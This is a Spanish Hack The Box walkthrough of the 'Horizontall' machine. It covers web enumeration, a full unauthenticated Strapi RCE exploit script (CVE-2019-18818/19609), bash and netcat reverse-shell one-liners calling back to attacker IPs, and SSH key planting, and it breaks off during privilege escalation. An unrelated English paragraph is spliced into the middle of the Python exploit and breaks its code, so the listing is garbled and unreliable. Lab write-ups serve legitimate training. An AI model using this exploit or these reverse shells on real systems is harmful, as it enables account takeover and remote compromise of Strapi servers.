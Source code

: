 Muy buenas a todos hoy traere la máquina Easy de HTB llamada Horizontall

# SOBRE HORIZONTALL

Es una máquina Linux fácil, en los que encontraremos dos servicios expuestos "HHTP" y "SSH", deberemos enumerar la página y ver sobre que framework esta construida.

Nos fijaremos en el codigo fuente, el CMS que utiliza la CVE que utilizaremos, etc. Hasta encontrar Root.

# INICIO

Para empezar siempre se hacen dos cosas básicas si queremos tres.
1- Identificar el sistema operativo al que nos enfrentamos (en este caso Linux)
2- Comprobar que hay conectividad entre ambas máquinas
3- Hacer un escaneo de puertos.

Todo comprobado utilizaremos el comando que siempre suelo utilizar para escanear puertos.

```
sudo nmap -sCV -T4 --min-rate 1000 IP
```
Como vemos nos encontramos los dos típicos puertos 22 - ssh y 80 - http

Lo primero que haremos sera conectanor a dicha página web pero su dominio nos redirige a "horizontall.htb" con lo cual lo agregamos a nuestro DNS.

```
echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts
```
Como podemos observar en la página no encontramos nada interesante, pero si nos vamos al apartado "Network" de nuestro navegador, podemos identificar varios archivos ".js" en los que no fijaremos y uno muy llamativo sobre la app 
"app.c68eb362.js" si nos vamos a dicho fichero, nos encontraremos un varullo de cosas, pero lo pasaremos por la maravillosa página "beautifier" 
```
methods: {
 getReviews: function() {
 var t = this;
 r.a.get("http://apiprod.horizontall.htb/reviews").then((function(s) {
 return t.reviews = s.data
 }
```
En la que nos encontramos un "VHOST" cual añadiremos a nuestro DNS.
```
echo "10.10.11.105 api-prod.horizontall.htb" | sudo tee -a /etc/hosts
```
Cuando la visitamos nos encontramos una página en blanco en la que pone "Welcome"

Probamos a mirar el código fuente pero en este caso no encontramos nada, con lo cual pasaremos a la siguiente forma de enumerar, que seran en este caso algun dominio, redireccion posible, utilizaremos en este caso gobuster.

En este caso posiblemente necesitaremos el repositorio famoso "seclist" tenemos dos formas de descargarlo, llendonos al github o la forma simple
```
sudo apt install seclist
```
y utilizamos el escaner
```
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/seclists/Discovery/WebContent/raft-small-words.txt -o gobuster -t 50
```
Gracias a esto encontramos la redireccion "admin" y nos llevara a un logeo.

Nos encontramos con una página web que utiliza [strapi](https://strapi.io) es un open source que utiliza "node.js"

Podemos buscar vulnerabilidades de strapi, yo utilizare la herramienta "searchsploit"
```
searchsploit strapi
```
Para utilizar esta herramienta, dependeremos de la base de datos "exploit db" si queremos instalar esta funcion
```
sudo apt -y install exploitdb
```
Nos encontramos con unos cuantos exploits pero uuno nos llama la atención "3.0.0-beta.17.7" para vulnerar el CMS Strapi con (RCE), sin necesidad de autentificar, en el panel de administrador. Sin necesidad de sus credenciales y nos redirigue a este archivo " multiple/webapps/50239.py"

```
searchsploit -m 50239.py
```
```
# Exploit Title: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE)
(Unauthenticated)
# Date: 2021-08-30
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://strapi.io/
# Software Link: https://strapi.io/
# Version: Strapi CMS version 3.0.0-beta.17.4 or lower
# Tested on: Ubuntu 20.04
# CVE : CVE-2019-18818, CVE-2019-19609
#!/usr/bin/env python3
import requests
import json
from cmd import Cmd
import sys
if len(sys.argv) != 2:
 print("[-] Wrong number of arguments provided")
 print("[*] Usage: python3 exploit.py <URL>\n")
 sys.exit()
class Terminal(Cmd):
 prompt = "$> "
 def default(self, args):
 code_exec(args)
def check_version():
 global url
 print("[+] Checking Strapi CMS Version running")
 version = requests.get(f"{url}/admin/init").text
 version = json.loads(version)
 version = version["data"]["strapiVersion"]
 if version == "3.0.0-beta.17.4":
 print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
 else:
 print("[-] Version mismatch trying the exploit anyway")
def password_reset():
 global url, jwt
 session = requests.session()
 params = {"code" : {"$gt":0},
 "password" : "SuperStrongPassword1",
 "passwordConfirmation" : "SuperStrongPassword1"
 }
 output = session.post(f"{url}/admin/auth/reset-password", json = params).text
 response = json.loads(output)
 jwt = response["jwt"]
 username = response["user"]["username"]
Inside the script there is a function called check_version() that makes a request to /admin/init to check
if the remote instance of Strapi is vulnerable to this exploit. We could visit this endpoint to verify manually if
we can use this exploit.
The version matches the one that the exploit needs to work so we can try executing the script to get a
reverse shell. From the source code we can see that it expects a URL parameter as input.
 email = response["user"]["email"]
 if "jwt" not in output:
 print("[-] Password reset unsuccessfull\n[-] Exiting now\n\n")
 sys.exit(1)
 else:
 print(f"[+] Password reset was successfully\n[+] Your email is: {email}\n[+]
Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON
Web Token: {jwt}\n\n")
def code_exec(cmd):
 global jwt, url
 print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't
expect to see output")
 headers = {"Authorization" : f"Bearer {jwt}"}
 data = {"plugin" : f"documentation && $({cmd})",
 "port" : "1337"}
 out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
 print(out.text)
if __name__ == ("__main__"):
 url = sys.argv[1]
 if url.endswith("/"):
 url = url[:-1]
 check_version()
 password_reset()
 terminal = Terminal()
 terminal.cmdloop()
```
Nos vamos a la ruta y probamos si el exploit funciona
```
python3 50239.py http://api-prod.horizontall.htb
```
Como podemos ver el RCE funciona correctamente pero tenemos una Shell llamada invisible porque no podemos ver nada de lo que hacemos, con lo cuál vamos a hacer una reverse shell para poder utilizarlo todo plenamente.
Para empezar nos ponemos en escucha en el puerto que queramos
```
sudo nc -lvnp 9001
```
y mandamos una revershe sell a dicha escucha desde la máquina victima
```
bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1
```
Esta no funciona probemos con otra
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9001 >/tmp/f
```
Con esta estamos dentro. 
También darnos cuenta que nos han dado un token de autentificacion con el usuario y contraseña del panel de admin.
```
 admin:SuperStrongPassword1
```
## MOVIMIENTO LATERAL

```
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
Enter 
```
Esto lo hacemos para tener una shell interactiva

Gracias a esto ya podemos sacar la primera flag la de usuario

Posteriormente al hacer un poco de recolecta de información sabemos que nuestras claves ssh se encunetran en al ruta "/opt/strapi/.shh/authorized_keys" 

Crearemos para empezar un .ssh para hacer un par de claves y posteriormente conectarnos por ssh

```
cd /opt/strapi
mkdir .ssh
ssh-keygen
```
Nos saldrán varias opciones para agregar texto pero simplemente en la primera opción elegimos strapi para que luego el output salga con ese nombre.

Y copiamos el contenido del fichero "strapi.pub" y nos conectamos por ssh

# ESCALACION DE PRIVILEGIOS

Hacemos un netstat para ver los servicios que corren en los puertos
```
netstat -pentul
```
Si vamos haciendo curls a los diferentes puertos encontraremos diferente información interesante.
Ahora si que vamos a utilizar bien el ssh, creamos desde nuestro ordenador principal unas keys como anteirormente y las llevamos a "autorized_ke

